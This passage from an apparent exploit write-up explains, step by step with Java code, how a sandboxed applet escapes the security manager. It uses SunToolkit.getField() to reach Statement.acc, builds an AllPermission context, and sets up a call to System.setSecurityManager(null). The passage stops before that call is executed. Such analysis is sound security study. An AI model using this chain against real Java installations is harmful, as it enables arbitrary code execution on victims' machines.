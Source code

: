 As a next step, we use SunToolkit.getField() to get access to the private
field Statement.acc.

---------------------------------------------------------------------------
  1: Expression expr1 = new Expression(sunToolkit, "getField",
  2: 	new Object[] {Statement.class, "acc"});
  3: Field acc = expr1.execute().getValue();
---------------------------------------------------------------------------

getField() is another confused deputy, on whose behalf we get reflective
access to a private field of a system class. The following snippet shows
that getField() uses doPrivileged() to get the requested field, and also
set it accessible, so that its value can be modified later.

----------------------------| SunToolkit.java |----------------------------
  1: public static Field getField(final Class klass,
  2: 	final String fieldName) {
  3:  return AccessController.doPrivileged(
  4: 	new PrivilgedAction<Field>() {
  5: 		public Field run() {
  6: 		...
  7: 			Field field = klass.getDeclaredField(fieldName);
  8: 			...
  9: 			field.setAccessible(true);
 10: 			return field;
 11: 		...
---------------------------------------------------------------------------

Next, we create an _AccessControlContext_ which is assigned all
permissions.

---------------------------------------------------------------------------
  1: Permissions permissions = new Permissions();
  2: permissions.add(new AllPermission());
  3: ProtectionDomain pd = new ProtectionDomain(new CodeSource(
  4: 	new URL("file:///"), new Certificate[0]), permissions);
  5: AccessControlContext newAcc =
  6: 	AccessControlContext(new ProtectionDomain[] {pd});
---------------------------------------------------------------------------

_Statement_ objects can represent arbitrary method calls. When an instance
of _Statement_ is created, it stores the current security context in
Statement.acc. When calling Statement.execute(), it will execute the call
it represents within the security context that has originally been stored
in Statement.acc to ensure that it calls the method with the same
privileges as if it were called directly.

We next create a _Statement_ that represents the call
System.setSecurityManager(null) and overwrite its _AccessControlContext_
stored in Statement.acc with our new _AccessControlContext_ that has all
permissions.

---------------------------------------------------------------------------
  1: Statement stmt = new Statement(System.class, "setSecurityManager",
  2: 	new Object[1]);
  3: acc.set(stmt, newAcc)
---------------------------------------------------------------------------
